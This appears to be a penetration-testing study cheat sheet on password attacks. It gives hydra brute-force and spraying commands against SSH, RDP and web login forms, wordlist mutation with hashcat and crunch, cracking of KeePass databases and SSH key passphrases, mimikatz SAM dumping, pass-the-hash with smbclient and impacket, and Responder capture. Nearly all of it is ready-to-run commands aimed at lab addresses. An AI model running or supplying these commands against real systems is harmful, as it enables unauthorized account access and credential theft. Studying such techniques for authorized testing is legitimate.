

# pasword attack

* Attacking network services logins
* Password Cracking Fundamentals
* &#x20;Working with Password Hashes


<details>

<summary><strong>Attacking network services logins</strong></summary>

### Attack SSH

```bash
sudo hydra -l abdo -P ~/wordlist.txt -s 22 ssh://192.168.1.8 
```

<figure><figcaption></figcaption></figure>

#### monitoring log file

```bash
sudo tail -f 5 /var/log/auth.log
```

<figure><figcaption></figcaption></figure>

### spray attack against the RDP

```bash
sudo hydra -L ~/username.txt -p "password" rdp://192.168.1.8
```


```bash
xfreerdp /u:user /p:"password" /v:192.168.50.202
```

### HTTP POST Login Form

```bash
sudo hydra -l admin -P passwords.txt 192.168.1.7 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

</details>


<details>

<summary>Password Cracking Fundamentals</summary>

#### Mutate wordlists


**create custom worldliest**&#x20;

```
kali@kali:~/passwordattacks$ cat demo2.rule
$! $1 c
kali@kali:~/passwordattacks$ hashcat -r demo2.rule --stdout demo.txt
Password!1
Iloveyou!1
Princess!1
Rockyou!1
Abc123!1
```

```bash
```


### <mark style="color:yellow;">create custom wordlist with crunch</mark>

main command

```sh
crunch <min> <max> [charset] [options]
```

* create number wordlist 8 length


```
crunch 8 8 0123456789 -o number_wordlist.txt
```


* create (prefix + number)

```
crunch 4 4 0123456789 | awk '{print "abdo"$0}' > abdo_num.txt
```

* multi  charset

```
crunch 5 7 "abcXYZ123!@#" -o custom_5-7.txt
```

#### <mark style="color:yellow;">Calculating the time of crack</mark>

1. calculate keyspace&#x20;

length 8 : 62<sup>8  =</sup> 218340105584896 | where 62 all character&#x20;

1. speed of hashcat&#x20;

```
hashcat -b 
-------------------
* Hash-Mode 0 (MD5)
-------------------

Speed.#1.........:   459.2 MH/s MH/s = MegaHashes per second)
```

speed 459.2  x 10<sup>6</sup>

3. <sup>calculate time</sup>&#x20;

keyspace /  speed&#x20;

### Cracking Methodology

1. Extract hashes
2. Format hashes
3. Prepare wordlist
4. Attack the hash

#### Crack keepass

keepass is software stored username and password

* how to find (.kdbx) file

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

1. extract hash

<pre class="language-bash"><code class="lang-bash">keepass2john Database.kdbx > keepass.hash
kali@kali:~/passwordattacks$ cat keepass.hash
<a data-footnote-ref href="#user-content-fn-1">Database:</a>$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9ae
c6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd
843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3
ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
</code></pre>

2. delete "Database:"
3. Format hashes

```bash
kali@kali:~/passwordattacks$ hashcat --help | grep -i "KeePass"
13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)
```

4. attack  the hash

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash
/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --
force
hashcat (v6.2.5) starting
...
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0
bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee30
9d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c35
35689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
```

<figure><figcaption></figcaption></figure>

#### SSH Private Key Passphrase

* like password used in ssh Asymetric authentication
* &#x20;contain 4 words

how to generate asymmetric key

1. generate key

```
ssh-keygen -t rsa
|__ id_rsa
|__ id_rsa.pub
```

2. send public key

```
ssh-copy-id .ssh/id_rsa.pub ubuntu@192.168.1.131
```

3. login with user&#x20;

```
ssh ubuntu@192.168.1.131
```

How to crack

```
ssh2john id_rsa > ssh.hash
```

```
john --wordlist=ssh.passwords  ssh.hash
```

</details>


<details>

<summary>Working with Password Hashes</summary>

1. Obtain and crack NTLM hashes
2. Pass NTLM hashes
3. Obtain and crack Net-NTLMv2 hashe
4. Relay Net-NTLMv2 hashes

#### Cracking NTLM

dump SAM hash

```sh
./mimikatz
privilege::debug
token::elevate
lsadump::sam
```

crack password

```sh
hashcat -m 1000 hash.txt wordlist.txt --force
```

Passing NTLM (Path-The-Hash)

```sh
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash
7a38310ea6f0027ee955abed1762964b
```

```shell
impacket-psexec -hashes
00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b
Administrator@192.168.50.212
```

```sh
impacket-wmiexec -hashes
00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b
Administrator@192.168.50.212
```

* (00000000000000000000000000000000) : Null hash 23 bytes

#### capture NTLMv2

1\. Responder (Linux)

```
# Start Responder to listen for authentication attempts
sudo responder -I eth0
```


</details>

[^1]: 
